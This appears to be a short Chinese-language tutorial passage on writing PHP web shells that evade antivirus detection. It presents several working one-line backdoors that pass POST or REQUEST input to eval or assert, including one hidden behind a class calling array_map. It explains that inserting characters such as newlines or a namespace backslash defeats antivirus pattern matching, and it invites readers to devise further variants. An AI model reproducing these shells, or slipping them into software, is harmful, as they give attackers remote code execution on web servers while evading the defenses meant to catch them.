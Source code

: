 定义一个类

```
<?php
class loveme {
    var $a;
    var $b;
    function __construct($a,$b) {
        $this->a=$a;
        $this->b=$b;
    }
    function test() {
       array_map($this->a,$this->b);
    }
}
$p1=new loveme(assert,array($_POST['x']));
$p1->test();
?>

```

特殊字符干扰，要求是能干扰到杀软的正则判断，还要代码能执行, 网上广为流传的连接符

初代版本

```
<?php
$a = $_REQUEST['a'];
$b = null;
eval($b.$a);
?>

```

不过已经不能免杀了，利用适当的变形即可免杀 如

```
<?php
$a = $_POST['a'];
$b = "\n";
eval($b.=$a);
?>

```

其他方法大家尽情发挥如”\r\n\t”, 函数返回，类，等等

除了连接符号 还有个命名空间的东西 \ 具体大家可以看看 php 手册

```
<?php
function dog($a){
    \assert($a);
}
dog($_POST[x]);
?>

```

